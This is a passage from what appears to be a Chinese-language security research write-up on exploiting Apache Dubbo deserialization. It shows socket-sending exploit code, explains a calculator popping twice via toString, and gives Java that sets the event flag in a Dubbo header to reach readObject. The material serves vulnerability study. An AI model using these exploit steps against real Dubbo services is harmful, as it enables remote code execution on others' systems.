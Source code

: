 ```java
        OutputStream outputStream = socket.getOutputStream();
        outputStream.write(bytes);
        outputStream.flush() ;
        outputStream.close();
    }
}
```

这里会弹出两次计算器，原因是`Object obj = readObject();`之后打印异常信息时拼接了`obj`，触发`toString`

```java
// HashMap
public final String toString() { return key + "=" + value; }
```

##### Event flag 2 readObject

开头讲Duubo解析头字段时，会读取一些flag位

![image-20230415155516479](../.gitbook/assets/image-20230415155516479.png)

如果`event`位为1，进入`decodeEventData` -> `in.readEvent()` 里面调用了`readObject`

因此我们修改`flag`字节的`event`位为1即可

```java
byte[] header = new byte[16];
Bytes.short2bytes((short) 0xdabb, header);  //  魔术字节 标识dubbo协议 2字节short
header[2] = (byte) ((byte) 0x80 | 0x20 | 2);   // 1010 0010 一个标志字节
Bytes.long2bytes(new Random().nextInt(100000000), header, 4);   // Request ID 8字节long
```

#### 2.7.9
